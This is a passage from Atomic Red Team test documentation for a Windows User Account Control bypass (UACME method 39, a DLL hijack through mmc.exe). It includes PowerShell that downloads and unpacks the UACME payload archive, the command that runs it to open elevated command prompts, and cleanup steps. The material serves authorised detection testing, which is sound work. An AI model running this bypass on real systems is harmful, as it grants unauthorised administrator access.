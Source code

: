 ##### Get Prereq Commands:

```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1548.002/bin/uacme.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\uacme.zip"
Expand-Archive "PathToAtomicsFolder\..\ExternalPayloads\uacme.zip" "PathToAtomicsFolder\..\ExternalPayloads\uacme" -Force
Remove-Item "PathToAtomicsFolder\..\ExternalPayloads\uacme.zip" -Force
```

<br/>
<br/>

## Atomic Test #14 - UACME Bypass Method 39

Executes User Account Control Bypass according to the methods listed below. Upon successful execution you should see event viewer load and two administrative command prompts.
Note: The cleanup_command's which kill the spawned cmd and event viewer processes only work if run as admin.

Author: Stefan Kanthak

Type: Dll Hijack

Method: .NET Code Profiler

Target: \system32\mmc.exe

Component: Attacker defined

Implementation: ucmCorProfilerMethod

UCM Method: UacMethodCorProfiler

https://github.com/hfiref0x/UACME

**Supported Platforms:** Windows

**auto_generated_guid:** 56163687-081f-47da-bb9c-7b231c5585cf

#### Inputs:

| Name      | Description              | Type | Default Value                                                                |
| --------- | ------------------------ | ---- | ---------------------------------------------------------------------------- |
| uacme_exe | Path to uacme executable | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;uacme&#92;39 Akagi64.exe |

#### Attack Commands: Run with `command_prompt`!

```cmd
"#{uacme_exe}"
```

#### Cleanup Commands:

```cmd
powershell Stop-Process -Name cmd -Force -ErrorAction Ignore
powershell Stop-Process -Name mmc -Force -ErrorAction Ignore
```
